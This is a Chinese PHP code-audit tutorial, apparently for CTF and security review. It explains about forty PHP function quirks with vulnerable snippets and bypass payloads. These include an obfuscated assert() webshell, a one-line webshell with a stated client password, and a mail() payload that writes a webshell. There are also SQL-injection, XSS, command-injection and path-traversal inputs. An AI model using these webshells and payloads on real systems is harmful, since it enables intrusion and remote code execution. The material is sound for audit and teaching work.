

[TOC]

# 0x01 php代码审计基础

## php代码审计的一些Tips(以泽哥的为基础)

#### 1.eregi（5.3以后已废弃）

此函数可以被%00截断

比如下面这个例子，可以使用$b=”%001111”

```php
//%00好像算一个字节
if(strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
{
    require("f4l2a3g.txt");
}
```

此外，如果传入数组，函数会报错并返回NULL。


**注**：php5.3中不再支持eregi()函数，而使用preg_match()函数替代。

改成preg_match后报错

`preg_match(): Delimiter must not be alphanumeric or backslash`

为pattern加上定界符

```php
<?php
$b = "/%001111";
//%00好像算一个字节
if(strlen($b)>5 and preg_match("/111".substr($b,0,1).'',"1114") and substr($b,0,1)!=4)
{
    require("f4l2a3g.txt");
}
```

这样可以成功包含

```php
<?php
$b = "/1111";
//%00好像算一个字节
if(strlen($b)>5 and preg_match("/111".substr($b,0,1).'',"1114") and substr($b,0,1)!=4)
{
    require("f4l2a3g.txt");
}
```

这样无法成功包含。


#### 2.assert（命令执行）

PHP中的assert可以用来执行PHP函数，进而进行getshell等操作，比如我们利用如下代码进行目录扫描

```php
<?php 
$poc = "a#s#s#e#r#t";
$poc_1 = explode("#", $poc);$poc_2 = $poc_1[0] . $poc_1[1] . $poc_1[2] . $poc_1[3] . $poc_1[4] . $poc_1[5];
$poc_2($_GET['s'])
?>
```

payload `s=print_r(scandir('./'));`

```php
#assert函数是直接将传入的参数当成PHP代码直接，不需要以分号结尾，当然你加上也可以。
#命令執行：cmd=system(whoami)
#菜刀连接密码：cmd
<?php @assert($_POST['cmd'])?>
```


#### 3.md5&sha1&md4

PHP中的md5和sha1函数存在两个问题，第一是他们处理数组都返回null；第二在弱类型条件下他们会认为如下的返回值相同

```php
QNKCDZO
240610708
s878926199a
s155964671a
s214587387a
s214587387a
sha1(str)
sha1('aaroZmOk')  
sha1('aaK1STfY')
sha1('aaO8zKZF')
sha1('aa3OFF9m')
```

注意：如果使用了md5并且是强相等，那么找到数据对应md5相同的值即可，在此给出一组某强网杯使用过的数据

```php
$Param1="\x4d\xc9\x68\xff\x0e\xe3\x5c\x20\x95\x72\xd4\x77\x7b\x72\x15\x87\xd3\x6f\xa7\xb2\x1b\xdc\x56\xb7\x4a\x3d\xc0\x78\x3e\x7b\x95\x18\xaf\xbf\xa2\x00\xa8\x28\x4b\xf3\x6e\x8e\x4b\x55\xb3\x5f\x42\x75\x93\xd8\x49\x67\x6d\xa0\xd1\x55\x5d\x83\x60\xfb\x5f\x07\xfe\xa2";
$Param2="\x4d\xc9\x68\xff\x0e\xe3\x5c\x20\x95\x72\xd4\x77\x7b\x72\x15\x87\xd3\x6f\xa7\xb2\x1b\xdc\x56\xb7\x4a\x3d\xc0\x78\x3e\x7b\x95\x18\xaf\xbf\xa2\x02\xa8\x28\x4b\xf3\x6e\x8e\x4b\x55\xb3\x5f\x42\x75\x93\xd8\x49\x67\x6d\xa0\xd1\xd5\x5d\x83\x60\xfb\x5f\x07\xfe\xa2";
#008ee33a9d58b51cfeb425b0959121c9
```


此外我们观察定义可以得到另外一点，通过设置raw_output参数的值为true，我们可以达到一个\，从而进行sql注入

> string md5 ( string $str [, bool $raw_output = false ] )
>
> str
> 原始字符串。
>
> raw_output
> 如果可选的 raw_output 被设置为 TRUE，那么 MD5 报文摘要将以16字节长度的原始二进制格式返回。

```php
php > var_dump(md5(128,true));
string(16) "v�an���l���q��\"

//可以看到字符串ffifdyop被md5后会产生'or'，从而可以产生万能密码进行登录
php > echo md5("ffifdyop",true);
'or'6�]��!r,��b

php > echo md5("129581926211651571912466741651878684928",true);
�T0D��o#��'or'8

content: 129581926211651571912466741651878684928
count:   18933549
hex:     06da5430449f8f6f23dfc1276f722738
raw:     ?T0D??o#??'or'8.N=?
```

参考: [SQL injection with raw MD5 hashes](http://cvk.posthaven.com/sql-injection-with-raw-md5-hashes)


md4弱类型比较，原理和md5相同

```php
if ($_GET["hash1"] != hash("md4", $_GET["hash1"]))
{
    die('level 1 failed');
}

```

hash1 = 0e251288019


md5 截断爆破

在De1CTF中Web4题目中遇到了另一种较为特殊的截断比较验证，如图所示：

[](https://img2018.cnblogs.com/blog/1212355/201908/1212355-20190805040439688-2046139276.png)

如红色方框中的提示，这段提示的意思是**验证明文(Code)+随机字符串(fTyHgZII)在md5加密之后截取前六位等于b77333**

在这种情况下单靠第一篇的数字爆破脚本便很难爆破出真正的Code，朋友给我分享了如下的爆破脚本：


```python
import hashlib

addStr = 'TSw8BK8m'
knownMd5 = 'd3b6da'

dict = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'

def md5(text):
    return hashlib.md5(str(text).encode('utf-8')).hexdigest()

for i in dict:
  for j in dict:
      for k in dict:
          for l in dict:
            x = i + k + j + l
            b = x + addStr
           codeMd5 = md5(b)
            if codeMd5[:6] == knownMd5:
                print(x)
```

运行结果如图：

[](https://img2018.cnblogs.com/blog/1212355/201908/1212355-20190805041647588-1511639159.png)


#### 4.strcmp

注：5.3之前版本的php存在如下问题

当这个函数接受到了不符合的类型，这个函数将发生错误并返回0，因而可以使用数组绕过验证

```php
<?php
$flag = "flag{xxxxx}";
if (isset($_GET['a'])) {
if (strcmp($_GET['a'], $flag) == 0) //如果 str1 小于 str2 返回 < 0； 如果 str1大于 str2返回 > 0；如果两者相等，返回 0。
//比较两个字符串（区分大小写）
die('Flag: '.$flag);
else
print 'No';
}
?>
```

实测发现php5.6.27以及php7都还存在此问题


#### 5.ereg（已废弃）

ereg()函数只能处理字符，如果传入数组将返回null


#### 6.strpos

strpos()的参数不能够是数组，所以处理数组返回的是null

strpos()与PHP的自动类型转换结合也会出在哪问题

如下：

```php
var_dump(strpos('abcd','a'));       # 0
var_dump(strpos('abcd','x'));       # false
```

并且由于PHP的自动类型转换的关系，0和false是相等的

```php
var_dump(0==false);         # true
```

例题：

```php
class Login {
    public function __construct($user, $pass) {
        $this->loginViaXml($user, $pass);
    }

    public function loginViaXml($user, $pass) {
        if (
            (!strpos($user, '<') || !strpos($user, '>')) &&
            (!strpos($pass, '<') || !strpos($pass, '>'))
        ) {
            $format = '<xml><user="%s"/><pass="%s"/></xml>';
            $xml = sprintf($format, $user, $pass);
            $xmlElement = new SimpleXMLElement($xml);
            // Perform the actual login.
            $this->login($xmlElement);
        }
    }
}

new Login($_POST['username'], $_POST['password']);
```

传入的username和password的首位字符是<或者是>就可以绕过限制，那么最后的pyaload就是：

```php
username=<"><injected-tag%20property="&password=<"><injected-tag%20property="
```

最终传入到$this->login($xmlElement)的$xmlElement值是`<xml><user="<"><injected-tag property=""/><pass="<"><injected-tag property=""/></xml>`这样就可以进行注入了。


#### 7.is_numeric

is_numeric()函数对于空字符%00，无论是%00放在前后都可以判断为非数值，而%20空格字符只能放在数值后。

```php
<?php
echo is_numeric("\r\n\n0.1e2%00");
echo is_numeric("%00\r\n\n0.1e2");
```


此外，is_numeric()函数在判断是否是数字时会忽略字符串开头的’ ‘、’\t’、’\n’、’\r’、’\v’、’\f’。而’.’可以出现在任意位置，E、e能出现在参数中间，仍可以被判断为数字。也就是说is_numeric(“\r\n\t 0.1e2”) >> TRUE

```php
<?php
echo is_numeric("\r\n\n0.1e2");
```


#### 8.ord

ord()函数返回字符串的首个字符的 ASCII 值

例如下面这道题目，我们可以用16进制绕过限制

```php
<?php
error_reporting(0);
function noother_says_correct($temp)
{
$flag = 'flag{test}';
$one = ord('1'); //ord — 返回字符的 ASCII 码值
$nine = ord('9'); //ord — 返回字符的 ASCII 码值
$number = '3735929054';
// Check all the input characters!
for ($i = 0; $i < strlen($number); $i++)
{
// Disallow all the digits!
$digit = ord($temp{$i});
if ( ($digit >= $one) && ($digit <= $nine) )
{
// Aha, digit not allowed!
return "flase";
}
}
if($number == $temp)
return $flag;
}
$temp = $_GET['password'];
echo noother_says_correct($temp);
?>
```


#### 9.科学计数法

```php
strlen($_GET['password']) < 8 && $_GET['password'] > 9999999

payload==>1e9
```


#### 10.in_array

语法：in_array(search,array,type)

| 参数   | 描述                                                         |
| ------ | ------------------------------------------------------------ |
| search | 必需。规定要在数组搜索的值。                                 |
| array  | 必需。规定要搜索的数组。                                     |
| type   | 可选。如果设置该参数为 true，则检查搜索的数据与数组的值的类型是否相同。 |

注意：in_array()的第三个参数在默认情况下是false，因此 PHP 会尝试将文件名自动转换为整数再进行判断，导致该判断可被绕过。

例如如下代码在13 行存在任意文件上传漏洞。 在 12 行代码通过 `in_array()` 来判断文件名是否为整数，可是未将 `in_array()` 的第三个参数设置为 true 。`in_array()`的第三个参数在默认情况下是false，因此 PHP 会尝试将文件名自动转换为整数再进行判断，导致该判断可被绕过。比如使用文件名为 5vulnspy.php 的文件将可以成功通过 `in_array($this->file['name'], $this->whitelist)` 判断，从而将恶意的 PHP 文件上传到服务器。

```php
class Challenge {
    const UPLOAD_DIRECTORY = './solutions/';
    private $file;
    private $whitelist;

    public function __construct($file) {
        $this->file = $file;
        $this->whitelist = range(1, 24);
    }

    public function __destruct() {
        if (in_array($this->file['name'], $this->whitelist)) {
            move_uploaded_file(
                $this->file['tmp'],
                self::UPLOAD_DIRECTORY . $this->file['name']
            );
        }
    }
}

$challenge = new Challenge($_FILES['solution']);
```

测试

```php
$myarray = range(1,24); 
in_array('5vulnspy.php',$myarray);         //true
in_array('5vulnspy.php',$myarray,true);    //false
```

注:array_search()与in_array()也是一样的问题。


#### 11.filter_var

filter_var()的URL过滤非常的弱，只是单纯的从形式上检测并没有检测协议。测试如下：

```php
var_dump(filter_var('vulnspy.com', FILTER_VALIDATE_URL));           # false
var_dump(filter_var('http://vulnspy.com', FILTER_VALIDATE_URL));    # http://vulnspy.com
var_dump(filter_var('xxxx://vulnspy.com', FILTER_VALIDATE_URL));    # xxxx://vulnspy.com
var_dump(filter_var('http://vulnspy.com>', FILTER_VALIDATE_URL));   # false
```

这种情况下可以采用如下payload`javascript://comment%250aalert(1)`来触发XSS

注：%250a即%0a表示换行符，上面的payload会被换行，并且//表示注释。最终触发后将得到如下形式

```php
javascript://comment
alert(1)
```


#### 12.class_exist

以class_exist()为例的下列函数会在在PHP 5.4以下版本中存在任意文件包含漏洞

```php
call_user_func()
call_user_func_array()
class_exists()
class_implements()
class_parents()
class_uses()
get_class_methods()
get_class_vars()
get_parent_class()
interface_exists()
is_a()
is_callable()
is_subclass_of()
method_exists()
property_exists()
spl_autoload_call()
trait_exists()
```

注：class_exists()会检查是否存在对应的类，当调用class_exists()函数时会触发用户定义的**autoload()函数，用于加载找不到的类(这个特性是因为class_exists函数中的$autoload参数，默认是true造成的)。所以如果我们输入../../../../etc/passwd是，就会调用class_exists()，这样就会触发**autoload(),这样就是一个任意文件包含的漏洞了。

注: PHP5~5.3(包含5.3版本)版本 之间才可以使用路径穿越符号”../“。

此外，还存在一个blind xxe的漏洞，由于存在class_exists()，所以我们可以调用PHP的内置函数,并且通过$controller = new $controllerName($data);进行实例化。借助与PHP中的SimpleXMLElement类来完成XXE攻击。

xxe漏洞实例参考：

[shopware blind xxe](https://blog.ripstech.com/2017/shopware-php-object-instantiation-to-blind-xxe/)

[我是如何黑掉“Pornhub”来寻求乐趣和赢得10000$的奖金](http://bobao.360.cn/learning/detail/3082.html)

参考：
[stackoverflow:class_exists&autoload：](https://stackoverflow.com/questions/3812851/there-is-a-way-to-use-class-exists-and-autoload-without-crash-the-script)


#### 13.mail（[CVE-2016-9920](https://nvd.nist.gov/vuln/detail/CVE-2016-9920))

mail()中的第五个参数可以-X的方式写入webshell。

payload：[`example@example.com](mailto:`example@example.com) -OQueueDirectory=/tmp -X/var/www/html/rce.php`

这个PoC的功能是在Web目录中生成一个PHP webshell。该文件（rce.php）包含受到PHP代码污染的日志信息

escapeshellarg()和filter_var()不安全的问题参考[在PHP应用程序开发中不正当使用mail()函数引发的血案](https://www.anquanke.com/post/id/86015)

escapeshellarg和escapeshellcmd联合使用从而造成的安全问题参考[PHP escapeshellarg()+escapeshellcmd() 之殇](https://paper.seebug.org/164/#)


#### 14.正则表达式可能存在问题

(1)
如本意想将非a-z、.、-、\*全部替换为空，但是正则表达式写成了`[^a-z.-*]`，其中没有对-进行转义，那么-表示一个列表，例如[1-9]表示的数字1到9，但是如果[1-9]表示就是字母1、-和9。所以\[^a-z.-_]表示的就是非ascii表中的序号为46至122的字母替换为空。那么此时的../…/就不会被匹配，就可以进行目录穿越，从而造成任意文件删除了。


(2)在反序列化漏洞中对于`preg_match('/O:\d:/', $data)`这样的正则可以采用在对象长度前添加一个+号，即o:14->o:+14来进行绕过。


参考：[php反序列unserialize的一个小特性](http://www.phpbug.cn/archives/32.html)


#### 15.parse_str

parse_str()可以在参数可控的情况下可以造成变量覆盖漏洞

例如：

```php
$var = parse_url($_SERVER['HTTP_REFERER']);
parse_str($var['query']);
```


#### 16.preg_replace

preg_replace() /e 模式可以执行任意代码，例子如下

```php
header("Content-Type: text/plain");

function complexStrtolower($regex, $value) {
    return preg_replace(
        '/(' . $regex . ')/ei',
        'strtolower("\\1")',
        $value
    );
}

foreach ($_GET as $regex => $value) {
    echo complexStrtolower($regex, $value) . "\n";
}
```

preg_replace的参数含义参考 [PHP手册–preg_replace](http://php.net/manual/zh/function.preg-replace.php)

在此处我们可以看到有两处的值是我们可以操控的，但是只有在’strtolower(“\1”)’这个位置的参数才可以执行代码，所以关键就在这儿。 \1是具有特殊含义的，在这儿就是就是指定第一个子匹配项,也即${phpinfo()}，进而达到执行代码的目的

参考文章：

[深入研究preg_replace与代码执行](https://xz.aliyun.com/t/2557)

[后向引用](http://php.net/manual/zh/regexp.reference.back-references.php)

[一个PHP正则相关的“经典漏洞”](https://www.cdxy.me/?p=756)


#### 17.str_replace

str_replace()函数是单次替换而不是多次替换，因而可以通过双写敏感词汇过滤，例如：

```php
str_replace('../', '', $language);
//payload:..././或者....//
```


#### 18.header

使用header()进行跳转的时候没有使用exit()或者是die()，导致后续的代码任然可以执行。如果后面存在危险函数，那么将会触发漏洞。

例如：

```php
extract($_POST);

function goAway() {
    error_log("Hacking attempt.");
    header('Location: /error/');
}

if (!isset($pi) || !is_numeric($pi)) {
    goAway();
}

if (!assert("(int)$pi == 3")) {
    echo "This is not pi.";
} else {
    echo "This might be pi.";
}
```

此处就可以POST一个`pi=phpinfo()`来借助assert()函数触发代码执行漏洞


#### 19.intval && php精度问题


**特性1:**

intval()函数执行成功时返回 变量的10进制值，失败时返回 0。空的 array 返回 0，非空的 array 返回 1。


**特性2:**

整数溢出、向下取整和整形判断存在问题

(1)整数溢出

32位系统最大的带符号范围为-2147483648 到 2147483647，64位最大的是 9223372036854775807。因此，在32位系统上 intval(‘1000000000000’) 会返回 2147483647


(2)向下取整

intval(10.99999)会返回10，intval和int等取整都是’截断’取整，并不是四舍五入


(3)intval函数进去取整时，是直到遇上数字或者正负号才开始进行转换，之后在遇到非数字或者结束符号（\0）时结束转换


**特性3:**

intval()函数会忽略’’ ‘\n’、’\r’、’\t’、’\v’、’\0’ ，也就是说intval(“\r\n\t 12”) >> 12 与**is_numeric**类似


**浮点数精度问题导致的大小比较以及函数处理问题**

当小数小于10^-16后，PHP对于小数就大小不分了

var_dump(1.000000000000000 == 1) >> TRUE

var_dump(1.0000000000000001 == 1) >> TRUE


md5(0.9999999999999999) == md5(1)

并且0.9999999999999999！= 1


#### 20.htmlentities

htmlentities默认情况下不会对单引号进行转义。


#### 21.addslashes

在进行了addslashes之后进行了截断，在一些情况下就有可能能够获得一个引号。

比如：

```php
function sanitizeInput($input, $length = 20) {
    $input = addslashes($input);
    if (strlen($input) > $length) {
        $input = substr($input, 0, $length);
    }
    return $input;
}
$test = "1234567890123456789'";
var_dump(sanitizeInput($test));

//output:1234567890123456789\
```

此处输出的刚好是带有一个\，而’则因为长度限制被截断，从而可以出发SQL注入漏洞


#### 22.小特性

(1)php自身在解析请求的时候，如果参数名字中包含空格、.、[这几个字符，会将他们转换成\_。但是通过`$_SERVER['REQUEST_URI']`方式获得的参数并不会进行转换。

(2)$\_REQUEST是直接从GET，POST 和 COOKIE中取值，不是他们的引用。即使后续GET，POST 和 COOKIE发生了变化，也不会影响$_REQUEST的结果

参考：

[《request导致的安全性问题分析》](https://blog.spoock.com/2018/05/05/request-vuln-analysis/)

[《PHP的两个特性导致waf绕过注入》](https://blog.csdn.net/u011721501/article/details/51824576)

(3)PHP中的`""`是可以执行代码的，因而在payload中常采用`"<?php phpinfo();>"`


#### 23. ++

PHP中的自增符号++在如下情况中不会有任何意义

```php
$test=123; echo $test++;  # 123
```

因此像下面代码所示的一样，就可能回产生变量覆盖漏洞

```php
foreach ($input as $field => $count) {
    $this->$field = $count++;
}
//这里的$count++在此并没有立即对值进行了修改
```

提示：当然如果++$count形式的话，也是可以存在变量覆盖的，因为在进行++操作时会进行隐式类型转换，如果能够转换成功，则会进行加法操作；如果不能转换成功，则将最后一个字符进行加法操作。

示例：

```php
$test = 123; echo ++$test;      // 124
$test = '123'; echo ++$test;    // 124
$test = '1ab'; echo ++$test;    // '1ac'
$test = 'ab1'; echo ++$test;    // 'ab2'
$test = 'a1b'; echo ++$test;    // 'a1c'
$test =array(2,'name'=>'wyj'); echo ++$test;    //Array123

//所以我们构造shell.php4或者shell.pho这样的，在自增操作后就会变成我们想要的shell.php5或者shell.php
```


#### 24.openssl_verify

依据openssl_verify()的定义有

> 如果签名正确返回 1, 签名错误返回 0, 内部发生错误则返回-1.

如果单独采用如下形式的判断就会出现问题，因为if判断只有遇到0或者是false返回的才是false。

```php
if (openssl_verify($data, $signature, $pub)) {
    $object = json_decode(base64_decode($data));
    $this->loginAsUser($object);
}
```


#### 25.stripcslashes

stripcslashes函数

> 返回反转义后的字符串。可识别类似 C 语言的 \n，\r，… 八进制以及十六进制的描述。

```php
var_dump(stripcslashes('0\073\163\154\145\145\160\0405\073'));      // 0;sleep 5;
```

因而对于下面这种形式我们可以采用将命令转换为八进制的形式进行绕过正则判断并触发命令执行

```php
function createThumbnail() {
    $e = stripcslashes(
        preg_replace(
            '/[^0-9\\\]/',
            '',
            isset($_GET['size']) ? $_GET['size'] : '25'
        )
    );
    system("/usr/bin/convert {$this->file} --resize $e
            ./thumbs/{$this->file}");
}
```


#### 26.set_error_handler

若错误配置此函数，将会造成信息泄露进而造成漏洞产生，比如：

```php
set_error_handler(function ($no, $str, $file, $line) {
    throw new ErrorException($str, 0, $no, $file, $line);
}, E_ALL);
```

这里的设置就相当于

```php
error_reporting(E_ALL);
ini_set('display_errors', TRUE);
ini_set('display_startup_errors', TRUE);
```

这种配置将会泄露所有的错误信息


#### 27.declare与array_walk

针对PHP7版本

PHP7中引入了declare(strict_types=1);这种声明方式，在进行函数调用的时候会进行参数类型检查。如果参数类型不匹配则函数不会被调用。

```php
declare(strict_types=1);
function addnum(int $a,int $b) {
    return $a+$b;
}
$result = addnum(1,2);
var_dump($result);              // 输出3
$result = addnum('1','2');
var_dump($result);              //出现Fatal error: Uncaught TypeError，Argument 1 passed to addnum() must be of the type integer, string given,程序出错，参数的数据类型不匹配
```


但是通过array_walk()调用的函数会忽略掉严格模式还是按照之前的php的类型转换的方式调用函数。

```php
declare(strict_types=1);
function addnum(int &$value) {
    $value = $value+1;
}
$input = array('3a','4b');
array_walk($input,addnum);
var_dump($input);//array(4,5)
```


因此利用array_walk()的这种特性，我们可以传入任意字符进去，进而触发相应的漏洞。


#### 28.ldap_escape

> **string ldap_escape ( string \$value [, string \$ignore [, int $flags ]] )**
>
> **value**
>
> The value to escape.
>
> **ignore**
>
> Characters to ignore when escaping.
>
> **flags**
>
> The context the escaped string will be used in: LDAP_ESCAPE_FILTER for filters to be used with ldap_search(), or LDAP_ESCAPE_DN for DNs.

当使用ldap_search()时需要选择LDAP_ESCAPE_FILTER过滤字符串，但是如果选择LDAP_ESCAPE_DN将会导致过滤无效


#### 29.strip_tags && preg_replace

例如:

```php
$textMsg = trim(strip_tags(preg_replace('/<(head|title|style|script)[^>]*>.*?<\/\\1>/s'，''，$message)));
```

目的很明显–去掉所有的标签和内容。首先使用`preg_replace`过滤掉标签、标签内容、标签属性，接着又使`用strip_tags`去掉其余的html和php标记。

正常输入没问题–如:`<head>evil</head>`，得到的结果是空，即全部都被过滤了。

结果很悲惨–如果攻击者输入`<head>evil</headend>`或者`<he<>ad>evil</head>`之类，就会导致evil字符串逃逸，攻击者利用evil字符串再结合上下文说不定就能够造成漏洞。


实际上是preg_replace不严导致的问题


#### 30.escapeshellarg && escapeshellcmd （特别老的php版本）

> escapeshellarg 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号

> escapeshellcmd 会对&#;|*?~<>^()[]{}$\， \x0A 和 \xFF进行转义，’和 “仅在不配对儿的时候被转义

需要注意的是escapeshellarg和escapeshellcmd在win平台和linux平台的表现是不一样的。他们两者造成的漏洞也主要是在Linux平台下。接下来主要是说明在Linux平台下的情况

```php
$msg = "123'456";
echo escapeshellarg($msg)  // 结果是： '123'\''456'
echo escapeshellcmd($msg)  // 结果是: 123\'456
```

当两者混合使用时，就会出现问题。代码如下：

```php
$parameter1 = escapeshellarg($parameter)
$parameter2 = escapeshellcmd($parameter1)
system("curl ".$parameter2)
```

假设我们传入的$parameter为`172.17.0.2' -v -d a=1`，那么经过escapeshellarg之后变为`'172.17.0.2'\'' -v -d a=1'`。之后经过escapeshellcmd变为`'172.17.0.2'\\'' -v -d a=1\'`，此时\的存在后面得’不会被转义，所以后面的两个’’变为了空白字符。那么最后实际的命令为`curl 172.17.0.2\ -v -d a=1'`，成功地逃逸了单引号。

这两个函数联合使用之后可以造成单引号逃逸，这样就很有可能会造成漏洞，利用的方式就需要看具体的应用场景了。


额外的利用

- [利用/绕过 PHP escapeshellarg/escapeshellcmd函数](https://www.anquanke.com/post/id/107336#h2-21)


#### 31.addslashes && basename

basename的主要用法是：

> 给出一个包含有指向一个文件的全路径的字符串，basename()函数返回基本的文件名。如果是在windows环境下，路径中的斜线(/)和反斜线()都可以用作目录分割符，在其他环境下是斜线(/)

示例:

```php
在 win平台下
$mypath1 = 'C:/Users/monkey/1.txt';
$name1 = basename($mypath1);
var_dump($name1);       // 1.txt
$mypath2 = 'C:\Users\monkey\2.txt';
$name2 = basename($mypath2);
var_dump($name2);       // 2.txt

在Linux平台下
$mypath1 = 'C:/Users/monkey/1.txt';
$name1 = basename($mypath1);
var_dump($name1);       // 1.txt
$mypath2 = 'C:\Users\monkey\2.txt';
$name2 = basename($mypath2);
var_dump($name2);       // C:\Users\monkey\2.txt
```


注:

1. 不一定是需要addslashes，只需要是进行了转义即可
2. 此方式的利用需要在win平台下。因为在win平台下，\/都可以作为basename的分隔符，但是在Linux平台下只有/可以作为分隔符，而addslashes会增加一个\。所以只能在win平台下使用。

漏洞演示如下：

```php
$filename = "123'456.png";
$filename = addslashes($filename);
var_dump($filename);        //结果是 123\'456.png
$filename = basename($filename);
var_dump($filename);        // 结果是 '456.png
```


通过例子可以看到，成功地逃逸了反斜线，单引号也保留了。
如果存在如下的代码:

```php
// 对输入进行转义
if (!@ get_magic_quotes_gpc()) {
    $_GET = $_GET ? $this->addslashes_deep($_GET) : '';
    $_POST = $_POST ? $this->addslashes_deep($_POST) : '';
    $_COOKIE = $this->addslashes_deep($_COOKIE);
    $_REQUEST = $this->addslashes_deep($_REQUEST);
}

$imagename = basename($_POST['image']);
$sql = "UPDATE table SET image = '".$imagename."'where id=1";
query($sql);
```

此时，如果我们输入的image的参数为`123' and if(1.sleep(3)，0)#`，最后的imagename的值为`' and if(1.sleep(3)，0)#`，sql语句为`UPDATE table SET image = '' or if(1.sleep(3)，0)#'where id=1`形成了一个盲注。


#### 32.explode && preg_replace

注:这种漏洞常见于文件上传

explode()用法:

> array explode ( string \$delimiter ， string \$string [， int \$limit ] )，此函数返回由字符串组成的数组，每个元素都是 string 的一个子串，它们被字符串 delimiter 作为边界点分割出来。

示例:

```php
$pizza  = "piece1 piece2 piece3 piece4 piece5 piece6";
$pieces = explode(" "， $pizza);         // 得到数组array("piece1"，"piece2"，"piece3"，"piece4"，"piece5"，"piece6")
```


这两个函数造成的漏洞其实就是一个任意文件上传，由于preg_replace()过滤了特殊字符，导致能够逃逸出php这种后缀，而explode()用以取文件名，最后取得的就是错误的文件后缀。

29~32的漏洞实例&参考:


[《连续使用过滤函数造成的安全问题总结》](https://blog.spoock.com/2018/03/19/wrong-usage-of-filter-function/)


#### 33.PHP可变变量与变量执行

在花括号内的代码是可以执行的

```php
//这种写法在php5.4.45以下的版本中都是无法执行的，但是在之后的版本都是可行
<?php
    "${phpinfo()}"; 
	${phpinfo()};
?>
```

在任何php的版本中都可以执行的方法:

```php
"${ phpinfo()}"; 第一个字符为空格)
"${ phpinfo()}"; 第一个字符为tab
"${/**/phpinfo()}"; 第一个字符为注释
"${【回车】phpinfo()}"; 第一个字符为回车
"${@phpinfo()}"; 第一个字符为@
```

> 原理:空格，tab，注释，回车是各种语法分析引擎中常见的分割字符，@是PHP语法的一个特殊的容错符号，所以可变变量内的花括号有这么一个规则，需要判断花括号内的内容是否为真正的代码，条件即是文本的第一个字符串是否为PHP语法解析引擎的分割字符和特殊的语法符号！

参考:

[《PHP可变变量简介以及安全性问题分析》](https://blog.spoock.com/2017/07/18/php-variables-variable/)


#### 34.PHP String Offset

关于字符串offset取值特性的一段描述[详见[2]]:

> String access and modification by character
>
> Characters within strings may be accessed and modified by specifying the
> zero-based offset of the desired character after the string using square array
> brackets, as in $str[42]. Think of a string as an array of characters for this
> purpose. The functions substr() and substr_replace() can be used when you want
> to extract or replace more than 1 character.
>
> Note: Strings may also be accessed using braces, as in $str{42}, for the same purpose.

说白了就是php中的字符串也可以像数组一样进行取值。比如:

```php
$test = "hello world";
echo $test[0];
//h
```

但是它的自动转换问题决定了下面的输出也是h:

```php
//pass被自动转换为0
//如果是1pass就会被自动转换为1
$mystr = "hello world";
echo $mystr["pass"];
```

漏洞示例:

```php
//下面这段代码是在在phpspy2006中用于判断登录时所使用的代码
$admin['check'] = "1";
$admin['pass']  = "angel";
......
if($admin['check'] == "1") {
....
}
```

这样的验证逻辑如果利用上述的特性就很容易地就可以被绕过。$admin没有被初始定义为数组类型，那么当我们用字符串提交时phpsyp.php?admin=1abc时，php会取字符串1xxx的第一位，成功绕过if的条件判断。

与之类似的还有php4fun中的第五题

参考:

[《由php offset特征造成的绕过漏洞》](https://blog.spoock.com/2017/07/07/php-offset/)


#### 35.switch

如果switch是数字类型的case的判断时，switch会将其中的参数转换为int类型。如下：

```php
$i ="2abc";
switch ($i) {
case 0:
case 1:
case 2:
    echo "i is less than 3 but not negative";
    break;
case 3:
    echo "i is 3";
}

//输出i is less than 3 but not negative
```


#### 36.file_put_contents&&unlink（亲测有问题）

此处指代file_put_contents、copy、file_get_contents等读取写入操作与unlink、file_exists等删除判断文件函数之间对于路径处理的差异导致的删除绕过

示例:

```php
<?php
$filename = __DIR__ . '/tmp/' . $user['name'];
$data = $user['info'];

file_put_contents($filename, $data);
if (file_exists($filename)) {
	unlink($filename);
}
?>
```

以下援引自P牛:

> 查看php源码，其实我们能发现，php读取、写入文件，都会调用php_stream_open_wrapper_ex来打开流，而判断文件存在、重命名、删除文件等操作则无需打开文件流。
>
> 我们跟一跟php_stream_open_wrapper_ex就会发现，其实最后会使用tsrm_realpath函数来将filename给标准化成一个绝对路径。而文件删除等操作则不会，这就是二者的区别。
>
> 所以，如果我们传入的是文件名中包含一个不存在的路径，写入的时候因为会处理掉“../”等相对路径，所以不会出错；判断、删除的时候因为不会处理，所以就会出现“No such file or directory”的错误。

因此linux可以通过xxxxx/../test.php、test.php/. windows可以通过test.php:test test.ph<来绕过文件删除

此外发现还可以使用伪协议php://filter/resource=1.php在file_ge_contents、copy等中读取文件内容，却可以绕过文件删除


#### 37.浮点数问题

当小数小于10^-16后，PHP对于小数的判断就出现问题了，PHP7也是如此

```php
var_dump(1.000000000000000 == 1) >> TRUE

var_dump(1.0000000000000001 == 1) >> TRUE
```


#### 38.filter_var&parse_url=>ssrf

参考:

[《SSRF技巧之如何绕过filter_var( )》](https://www.anquanke.com/post/id/101058/)


#### 39.file_get_contents

通过file_get_contents获取网页内容并返回到客户端有可能造成xss

例如如下代码

```php
if(filter_var($argv[1], FILTER_VALIDATE_URL)) {
   // parse URL
   $r = parse_url($argv[1]);
   print_r($r);
   // check if host ends with google.com
   if(preg_match('/baidu\.com$/', $r['host'])) {
      // get page from URL
      $a = file_get_contents($argv[1]);
      echo($a);
   } else {
      echo "Error: Host not allowed";
   }
} else {
   echo "Error: Invalid URL";
}
```

虽然通过filter_var函数对url的格式进行检查，并且使用正则对url的host进行限定

但是可以通过`data://baidu.com/plain;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pgo=` 页面会将`<script>alert(1)</script>`返回给客户端，就有可能造成xss

```bash
/usr/bin/php /var/www/html/php-audit/index.php data://baidu.com/plain;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pgo=
Array
(
    [scheme] => data
    [host] => baidu.com
    [path] => /plain;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pgo=
)
<script>alert(1)</script>

Process finished with exit code 0
```


#### 40.敏感配置项

**1.register_globals**

php版本小于5.4时存在

当该配置项为ON时，会把用户通过GET、POST提交的参数自动注册成全局变量。当代码中存在有未初始化的变量时，可能会导致变量覆盖的问题

**注**:其中参数覆盖的顺序受到配置文件中variables_order的参数影响，默认是EGPCS。按顺序，右边的参数来源会覆盖左边的的参数来源


**2.allow_url_include**

php版本大于5.2默认为off

当该配置项为ON时，可以通过include、require等函数进行远程文件包含

